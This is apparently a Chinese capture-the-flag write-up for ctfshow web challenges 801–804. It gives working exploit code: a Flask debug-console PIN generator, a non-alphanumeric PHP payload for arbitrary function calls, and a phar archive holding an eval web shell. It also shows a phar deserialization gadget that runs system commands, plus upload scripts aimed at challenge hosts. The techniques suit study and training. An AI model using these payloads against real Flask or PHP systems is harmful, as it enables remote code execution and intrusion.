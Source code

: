 ```yaml
---
title: ctfshow 常见姿势
date: 2024-10-21 21:52:39
permalink: /pages/a43171/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# ctfshow 常见姿势

## web801

flask pin值计算，读取文件，脚本计算pin码。梭哈

非预期：`url/file?filename=/flag`

预期：

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'root'  # username，通过/etc/passwd
    'flask.app',  # modname，默认值
    'Flask',  # 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # moddir，通过报错获得
]
# 填入获取的16进制即可，后面添加了转换功能
address = '02:42:ac:0c:e8:a0'
address = int(address.replace(':', ''),16)
private_bits = [
    f'{address}',  # mac十进制值 /sys/class/net/eth0/address
    '225374fa-04bc-4346-9f39-48fa82829ca934b345d280f694439fa54c01aa968eef81f55a7e5baa3e39db57884e39217606'  # 看上面machine-id部分
]

# 下面为源码里面抄的，不需要修改
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
        else:
            rv = num

print(rv)

# 下面为源码里面抄的，不需要修改
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

![1](https://the0n3.top/medias/show800/1.png)


## web802

限制非字母数字，可以用字符，自增构造字符

构造`$_GET[_]($_GET[__])`

```php
<?php
$___=((''/'').'')[''==_];# $___ = N
$____=((''/'').'')[''==''];# $____ = A
++$____;
++$____;
++$____;
$_____=++$____; # $_____ = E

++$____;
++$____;
$______ = $____; # $______ = G

++$___;++$___;++$___;++$___;++$___;
$_______=++$___; # $______ = T# 

$________='_'.$______.$_____.$_______;
$$________[_]($$________[__]); # $_GET[_]($_GET[__])
```

简化

```php
$___=((''/'').'')[''==_];$____=((''/'').'')[''==''];++$____;++$____;++$____;$_____=++$____;++$____;++$____;$______ = $____;++$___;++$___;++$___;++$___;++$___;$_______=++$___;$________='_'.$______.$_____.$_______;$$________[_]($$________[__]);
```

整个payload使用post发包，url编码一下，避免`$`,`=`具有特殊语意

![2](https://the0n3.top/medias/show800/2.png)

## web803

phar文件包含，第一次接触，后续详细学习一下

这里审计起来有点奇怪，不存在`$file.txt`就写一个`$file`，写了`$file`那`$file.txt`不还是不存在？通过`file_put_contents`函数直接写🐎不现实了，可以了解到这里可以通过phar打包一个`$file.txt`到服务器，使文件包含成为了可能

```php
if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

生成phar文件，里面打包一个`a.txt`，内容为`<?php highlight_file(__FILE__);eval($_POST[1]);?>`

```php
<?php
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php highlight_file(__FILE__);eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

使用python发包

```python
import requests

url="http://7fce7e3d-4206-4f91-b196-7536bde12046.challenge.ctf.show/"

data1={'file':'/tmp/a.phar','content':open('shell.phar','rb').read()}
r = requests.post(url,data=data1)
print(r.text)
```

通过phar协议包含文件

![3](https://the0n3.top/medias/show800/3.png)

## web804

unlink会触发反序列化

```php
class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

重点在`hacker`类析构函数存在命令执行

```php
<?php 
class hacker{
    public $code = 'system("tac /f*;tac f*");';
}
$a=new hacker();
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar->setMetadata($a);
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "111");
$phar->stopBuffering();
?>
```

python发包

```python
import requests

url="http://4d03da6f-da2a-4b1e-beb3-b1ad422e3af6.challenge.ctf.show/"

data1={'file':'/tmp/aa.phar','content':open('shell.phar','rb').read()}
r = requests.post(url,data=data1)
print(r.text)
```

![4](https://the0n3.top/medias/show800/4.png)


## 待更新